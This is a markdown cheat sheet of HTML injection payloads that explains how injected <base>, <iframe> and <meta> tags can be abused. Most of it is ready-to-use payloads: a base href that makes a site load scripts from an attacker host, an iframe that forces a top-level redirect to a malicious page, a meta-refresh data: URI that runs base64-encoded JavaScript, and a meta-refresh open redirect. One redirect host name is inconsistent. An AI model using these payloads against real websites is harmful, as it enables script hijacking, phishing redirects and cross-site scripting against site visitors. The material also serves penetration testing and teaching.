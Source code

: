# HTMLi
HTML Injection Payloads

## base

The HTML 
 element specifies the base URL to use for all relative URLs in a document.
Note: If multiple <base> elements are used, only the first href and first target are obeyed — all others are ignored.

### Relative URL redirection
`<base>` tag injection allows you to redirect relative url to the attacker host. For example, if the vulnerable site includes a script:
```html
<script src="/assets/some-script.js"></script>
```

so, if you inject before the relative remote script:
```html
<base href="https://attacker-website.com">
```
the browser will request https://attacker-website.com/assets/some-script.js.

## iframe
The `<iframe>` tag is used to embed an HTML document in another HTML document. If source of inserted document located on another origin, same origin policy will block any access to content of other document for both of them.

### Open redirect
Child document can view and set location property for parent, even if cross-origin top.window.location.
Inject an iframe to vulnerable-website.com:
```html
<iframe src=//malicious-website.com/toplevel.html></iframe>
```
where `https://malicious-website.com/toplevel.html` contains:
```html
<html><head></head><body><script>top.window.location = "https://malicious-website.com/pwned.html"</script></body></html>
```
When the iframe is loaded, the parent will be redirected to the https://malware-website.com/pwned.html page, even if the child document is loaded from a different origin. Same origin policy will be bypassed because the iframe is not being "sandboxed", q.v. .



## meta
The `<meta` tag represents metadata that cannot be represented by other HTML meta-related elements.
Some `<meta>` tags are informational, for example:
```html
<meta name="name" content="content">
```
And some affect the page in some way, for example:
```html
<meta http-equiv="content-security-policy" content="default-src 'none'; base-uri 'self'">
```
Moreover, CSP does not regulate such `<meta>` elements. `<meta http-equiv=...>` is a tag on the page that may emulate a subset of functions normally reserved for page headers. Similarly, some of these functions appear in Javascript, which is already heavily regulated by CSP. Dangerous functions that can be performed by `<meta http-equiv=...>` include:
..*set-cookie,
..*refresh:
....*redirect to any regular URL,
....*redirect to any data: URL.

set-cookie instruction was removed from the standard, and is no longer supported at all in Firefox 68 and Chrome 65.

## XSS
We can use the <meta> tag with content = "0; data: " URI to execute arbitrary Javascript code (works only on safari), for example:
```html
<meta name="language" content="0;data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" http-equiv="refresh"/>
```
Firefox and Chrome will block this:
Not allowed to navigate top frame to data URL (Firefox)

    Navigation to toplevel data: URI not allowed (Chrome)

### Open redirect
Using a similar payload, you can redirect the victim to an malicious page:
```html
<meta name="language" content="5;http://malicious-website.com" http-equiv="refresh"/>
```
